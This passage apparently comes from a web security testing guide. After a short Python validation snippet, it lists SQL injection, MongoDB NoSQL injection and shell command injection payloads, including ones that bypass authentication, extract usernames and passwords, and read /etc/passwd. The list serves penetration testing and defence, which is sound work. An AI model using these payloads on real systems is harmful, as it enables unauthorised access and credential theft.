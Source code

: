 ```python
except ValidationError as err:
    return jsonify(err.messages), 400
```

## 11. Testing Payloads by Category

### 11.1 SQL Injection Payloads

```sql
-- Authentication bypass
admin'--
admin'/*
' OR 1=1--
' OR 'x'='x
' OR 1=1#

-- Union-based injection
' UNION SELECT 1,2,3--
' UNION SELECT null,username,password FROM users--

-- Error-based injection
' AND (SELECT * FROM (SELECT COUNT(*),CONCAT(version(),FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a)--

-- Boolean blind injection
' AND 1=1--
' AND 1=2--
' AND (SELECT SUBSTRING(user(),1,1))='r'--
```

### 11.2 NoSQL Injection Payloads

```javascript
// MongoDB authentication bypass
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$in": ["admin", "administrator"]}}
{"$or": [{"username": "admin"}, {"username": "administrator"}]}

// MongoDB data extraction
{"username": {"$regex": "^a.*"}}
{"username": {"$where": "this.username.length < 5"}}
```

### 11.3 Command Injection Payloads

```bash
# Unix/Linux command injection
; cat /etc/passwd
| cat /etc/passwd
& cat /etc/passwd
`cat /etc/passwd`
$(cat /etc/passwd)

# Windows command injection
& type c:\windows\system32\drivers\etc\hosts
| dir c:\
&& net user

# Time delay verification
; sleep 10
& timeout 10
```
